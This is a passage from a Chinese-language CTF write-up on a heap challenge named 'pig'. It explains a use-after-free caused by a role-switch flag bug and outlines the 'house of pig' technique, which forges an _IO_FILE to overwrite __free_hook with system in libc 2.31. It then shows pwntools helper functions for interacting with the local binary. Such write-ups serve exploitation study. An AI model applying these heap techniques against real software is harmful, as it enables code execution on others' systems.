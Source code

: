 但是这里需要注意从mmap出来空间中复制过来的只有第二个标志位，第一个标志位并没有被复制过来。

# 2. 漏洞分析
本题的漏洞就在于用户的分配上。由于新用户只是复制了第二个标志位，对于某个chunk的索引而言，如果原用户的两个对应标志位均为0，而新用户的两个标志位为1，则用户转换后，两个标志位分别为0和1。注意view message和edit message检查的都是第1个标志位是否为0，对于新用户而言，这个索引原本的chunk是已经被释放的，但这样一来我们就可以再一次访问这个chunk，这就产生了UAF。

但只有一个UAF，应该如何利用本题的漏洞呢？这就需要介绍一下house of pig这种利用方式的思路了。

> 该攻击方式适用于 libc 2.31及以后的新版本 libc，本质上是通过 libc2.31 下的 largebin attack以及 FILE 结构利用，来配合 libc2.31 下的 tcache stashing unlink attack 进行组合利用的方法。主要适用于程序中仅有 calloc 函数来申请 chunk，而没有调用 malloc 函数的情况。

本题中，我们可以申请到在tcache保存大小范围的chunk，也可以申请到大于tcache大小的chunk，因此就完美符合这个条件。

house of pig在本题（libc 2.31版本）利用方式的本质是：想办法将``__free_hook``保存到tcache中，然后使用一个伪造的``_IO_FILE``结构体，并想办法将该假结构体链到``_IO_list_all``（最简单的方法是直接修改``_IO_list_all``的值到这里），并在glibc检测到内存分配出错时能够转到该``_IO_FILE``结构体执行``_IO_str_overflow``，在``_IO_str_overflow``中连续进行``malloc``、``memcpy``、``free``三个操作，通过``memcpy``将``system``函数地址写到``__free_hook``，通过后面紧跟着的``free``来getshell。

下面，我们就开始进行本题的漏洞利用。

# 3. 漏洞利用
首先写一下交互函数：

```python
from pwn import *
context.log_level = 'debug'

io = process(['./pig'])
elf = ELF('./pig')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
password = [b'AY7Hr0', b'BRgTa2', b'CnY841']

def add(content_length, content):
    io.sendlineafter(b'Choice: ', b'1')
    io.sendlineafter(b'message size: ', str(content_length).encode())
    io.sendafter(b'message: ', content)

def view(index):
    io.sendlineafter(b'Choice: ', b'2')
    io.sendlineafter(b'index: ', str(index).encode())

def edit(index, content):
    io.sendlineafter(b'Choice: ', b'3')
    io.sendlineafter(b'index: ', str(index).encode())
    io.sendafter(b'message: ', content)

def delete(index):
    io.sendlineafter(b'Choice: ', b'4')
    io.sendlineafter(b'index: ', str(index).encode())

def change_role(role):
    io.sendlineafter(b'Choice: ', b'5')
    io.sendlineafter(b'user:\n', password[role])
```
